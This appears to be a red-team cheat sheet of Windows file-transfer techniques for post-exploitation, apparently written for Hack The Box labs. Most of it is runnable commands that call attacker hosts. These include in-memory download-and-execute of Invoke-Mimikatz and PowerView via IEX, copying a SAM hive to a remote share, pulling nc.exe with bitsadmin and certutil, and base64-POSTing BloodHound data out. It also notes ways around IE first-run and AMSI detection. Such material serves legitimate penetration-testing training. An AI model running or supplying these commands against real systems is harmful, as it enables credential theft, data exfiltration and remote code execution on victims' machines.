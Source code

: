 # Windows File Transfer

## Smb Server / Mount share

```
smbserver.py -smb2support -username gust -password guest share /root/htb

#Mount 
net use x: \\<IP>\share /user:guest <password>
#Download
cmd /c "copy file.txt X:\"
move sam.save \\10.10.15.16\CompData

$pass = convertto-securestring 'staphy' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('staphy',$pass)
New-PSDrive -Name "staphy" -PSProvider "FileSystem" -Credential $creds -Root "\\<IP>\Public"
cd staphy:
```



## PowerShell

### PowerShell Downloads

```
#System.Net.WebClient class can be used to download a file over HTTP.
(New-Object System.Net.WebClient).DownloadFile('http://<IP>:PORT/file.EXT',"C:\Outfile.EXT")

#From PowerShell 3.0 Invoke-WebRequest but slower,
#Alias iwr, curl, wget can be used instead of Invoke-WebRequest
Invoke-WebRequest http://<IP>:PORT/file.Ext -OutFile file.Ext

#Execute Payload directly into memory using Invoke-Expression
#Alias iex
IEX (New-Object Net-WebClient).DownloadString('http://<IP>:PORT/Invoke-Mimikatz.ps1')

#IEX also accepts pipeline input
Invoke-WebRequest https://<IP>:PORT/Invoke-Mimikatz.ps1 | iex
```

{% hint style="danger" %}
There may be cases when the Internet Explorer first-launch configuration has not been completed, which prevents the download.

This can be bypassed using the parameter `-UseBasicParsing`

```
Invoke-WebRequest https://<ip>/PowerView.ps1 | iex
Invoke-WebRequest : The response content cannot be parsed because the Internet Explorer engine is not available, or Internet Explorer's first-launch configuration is not complete. Specify the UseBasicParsing parameter and try again.
At line:1 char:1
+ Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/P ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ CategoryInfo : NotImplemented: (:) [Invoke-WebRequest], NotSupportedException
+ FullyQualifiedErrorId : WebCmdletIEDomNotSupportedException,Microsoft.PowerShell.Commands.InvokeWebRequestCommand


# FIX
Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | iex
Invoke-CheckLocalAdminAccess

ComputerName IsAdmin
------------ -------
localhost      False

# with administrative access to the machine, we can disable Internet Explorer’s First Run customization
reg add "HKLM\SOFTWARE\Microsoft\Internet Explorer\Main" /f /v DisableFirstRunCustomize /t REG_DWORD /d 2
```
{% endhint %}

> Powershell download cradles that do not observe Internet Explorer’s first-run check can also be used. Harmj0y has compiled an extensive list of PowerShell download cradles [here](https://gist.github.com/HarmJ0y/bb48307ffa663256e239). It is worth gaining familiarity with them and their individual nuances, such as not observing a proxy or touching a disk to select the appropriate one for the situation.

### PowerShell Uploads

```
#Invoke-WebRequest or Invoke-RestMethod
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'c:/Bloodhound.zip' -Encoding Byte))
Invoke-WebRequest -Uri http://<IP>:433 -Method POST -Body $b64

#after catching 64data with ncat
echo <base64> | base64 -d -w 0 > bloodhound.zip
```

## Bitadmin

### Download

```
#Background Intelligent Transfer Service
#Can download from HTTP sites and SMB shares
bitsadmin /transfer n http://<IP>/nc.exe C:\Temp\nc.exe

#PowerShell also enables interaction with BITS, enables file downloads and uploads, supports credentials, and can use specified proxy servers.
Import-Module bitstransfer;Start-BitsTransfer -Source "http://<IP>/nc.exe" -Destination "C:\Temp\nc.exe"
```

### Upload

```
start-BitsTransfer "C:\Temp\bloodhound.zip" -Destination "http://10.10.10.132/uploads/bloodhound.zip" -TransferType Upload -ProxyUsage Override -ProxyList PROXY01:8080 -ProxyCredential INLANEFREIGHT\svc-sql        
```

## Certutil

```
#available in all Windows versions
certutil.exe -encode C:\Users\Alfred\Downloads\backups\backup.zip c:\\windows\\temp\backup.b64
type c:\windows\temp #then copy and paste in your machine
vi backup.base64
base64 -d backup.base64 > backup.zip
#the Antimalware Scan Interface (AMSI) currently detects this as malicious certutil usage.
certutil.exe -verifyctl -split -f http://<IP>/nc.exe
```

